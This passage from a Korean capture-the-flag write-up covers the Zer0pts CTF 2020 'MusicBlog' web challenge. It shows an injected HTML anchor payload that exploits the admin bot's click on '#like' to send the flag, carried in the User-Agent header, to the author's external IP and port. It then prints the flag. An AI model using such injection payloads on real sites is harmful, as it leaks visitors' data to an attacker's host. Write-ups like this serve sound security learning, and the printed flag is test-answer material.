 그럼 content의 값으로 "&#60;a id='like' href='myip'&#62;&#60;/a&#62;"를 주면 click('#like')에 의해서 User-Agent에 FLAG가 들어있는 상태로 myip로 요청이 갈 것 입니다.

<span style="color:#631F9C">&#62;</span> Exploit

![](https://github.com/wjddnjs33/image/blob/main/Zer0pts%20CTF%202020/MusicBlog/4.png?raw=true)
```html
<a/udio id="like" href="http://141.164.52.207:12345">GG</a>
```
그래서 위 페이로드를 `Content`의 값으로 넘겨주니 요청이 내 서버로 전송이 된 것을 확인할 수 있었고, User-Agent 헤더의 flag가 있는 것도 볼 수 있었습니다.

> FLAG : zer0pts{M4sh1m4fr3sh!!}

---
### (Web) phpNantoKaAdmin [755pts]

귀찮다.


---
